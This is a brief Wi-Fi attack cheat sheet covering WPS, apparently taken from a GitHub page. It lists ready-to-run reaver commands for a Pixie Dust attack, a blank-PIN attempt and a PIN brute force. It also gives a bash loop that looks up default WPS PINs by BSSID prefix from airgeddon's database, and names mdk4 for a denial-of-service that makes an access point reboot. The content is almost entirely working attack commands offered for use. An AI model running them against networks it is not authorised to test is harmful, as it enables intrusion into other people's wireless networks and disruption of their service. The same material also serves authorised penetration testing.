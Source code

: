 #### WPS Attacks

Pixie WPS attack:
```
sudo reaver -c <channel> -b <BSSID> -i wlan1 -v -K
```

Blank PIN:
```
sudo reaver -c <channel> -b <BSSID> -i wlan1 -p "" -v
```

Default PIN values that depend on the first three bytes of the BSSID:
```
sudo apt install airgeddon
source /usr/share/airgeddon/known_pins.db #  loads an array of PINs into memory
echo ${PINDB["0022FF"]}

cut -d ':' -f 1-3 bssids.txt | sort -u | tr -d ':' | while read line; do echo ${PINDB["$line"]};done
```

Brute force PIN:
```
sudo reaver -c <channel> -b <BSSID> -i wlan1 -v
```

DoS when WPS is locked, could reboot the AP which release the lock : `mdk4`